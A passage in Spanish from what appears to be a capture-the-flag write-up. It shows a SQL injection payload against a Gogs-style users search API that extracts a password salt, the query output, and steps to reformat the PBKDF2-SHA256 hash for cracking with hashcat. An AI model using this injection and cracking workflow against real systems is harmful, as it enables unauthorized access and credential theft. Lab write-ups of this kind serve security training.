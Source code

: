 La *query* para obtener el ***salt*** será la siguiente:

```python
http://10.10.11.176:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,salt,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27/**/from/**/User--/**/-
```

Y aquí el resultado:

```json
[
  {
    "username": "susanne",
    "avatar": "//1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce"
  },
  {
    "username": "sO3XIbeW14",
    "avatar": "//1.gravatar.com/avatar/15"
  }
]
```

##### Reconstruyendo el hash

Ahora debemos darle **formato** a la información obtenida para formar un ***hash*** y luego poderlo *crackear* por fuerza bruta con la herramienta *hashcat*.

En el código podemos encontrar la **función** que se utiliza para **codificar** la contraseña de un usuario:

```go
// EncodePasswd encodes password to safe format.
func (u *User) EncodePasswd() {
	newPasswd := base.PBKDF2([]byte(u.Passwd), []byte(u.Salt), 10000, 50, sha256.New)
	u.Passwd = fmt.Sprintf("%x", newPasswd)
}
```

Está utilizando ***PBKDF2-SHA256***. Podemos ir a [esta web](https://hashcat.net/wiki/doku.php?id=example_hashes) y buscar el formato de hash conveniente. Utilizaremos el modo 10900. Muestran el siguiente **ejemplo**:

```
10900 | PBKDF2-HMAC-SHA256 | sha256:1000:MTc3MTA0MTQwMjQxNzY=:PYjCU215Mi57AYPKva9j7mvF4Rc5bCnt
```

Este formato sigue el siguiente patrón:

* *hash_algorithm* --> sha256.
* *iterations* --> 10000. Lo podemos ver en el código anterior.
* *salt* --> Deberemos pasar el *salt* a base64.
* *hash* --> Nuestro *hash* está en hexadecimal. Debemos convertir la representación en hexadecimal y luego pasarlo a base64.

El procedimiento para darle formato al *hash* es el siguiente:

```bash
$> echo -n "66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37" | xxd -ps -r | base64
ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=
```
